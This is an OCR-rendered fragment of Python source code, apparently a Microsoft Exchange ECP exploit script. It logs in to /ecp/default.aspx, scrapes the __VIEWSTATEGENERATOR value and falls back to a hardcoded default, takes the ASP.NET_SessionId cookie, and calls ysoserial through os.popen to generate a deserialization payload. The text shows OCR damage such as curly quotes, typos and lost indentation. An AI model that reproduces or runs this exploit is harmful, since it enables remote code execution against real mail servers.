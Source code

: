 ```
print("[!] login error , error: {}".format(e))

sys.exit(1)

print("[+] Login successfully! “)

try:

print(”[*] Tring to get __VIEWSTATEGENERATOR…")

target_url = “{}/ecp/default.aspx”.format(base_url)

new_response = session.get(target_url, verify=False, timeout=15)

view = re.compile(

‘id="__VIEWSTATEGENERATOR" value="(.+?)"’).findall(str(new_response.text))[0]

print("[+] Done! __VIEWSTATEGENERATOR:{}".format(view))

except:

view = “B97B4E27”

print("[*] Can’t get __VIEWSTATEGENERATOR, use default value: {}".format(view))

try:

print("[*] Tring to get ASP.NET_SessionId…")

key = session.cookies[‘ASP.NET_SessionId’]

print("[+] Done!  ASP.NET_SessionId: {}".format(key))

except Exception as e:

key = None

print("[!] Get ASP.NET_SessionId error, error: {} \n[*] Exit…".format(e))

return view, key, base_url

def ysoserial(cmd):

cmd = ysoserial_path+cmd

r = os.popen(cmd)

res = r.readlines()

return res[-1]

def main():

parser = argparse.ArgumentParser()

parser.add_argument("-s", “–server”, required=True, help=“ECP Server URL Example: [http://ip/owa](http://ip/owa)”)

parser.add_argument("-u", “–user”, required=True, help=“login account Example: domain\user”)

parser.add_argument("-p", “–password”, required=True, help=“Password”)

```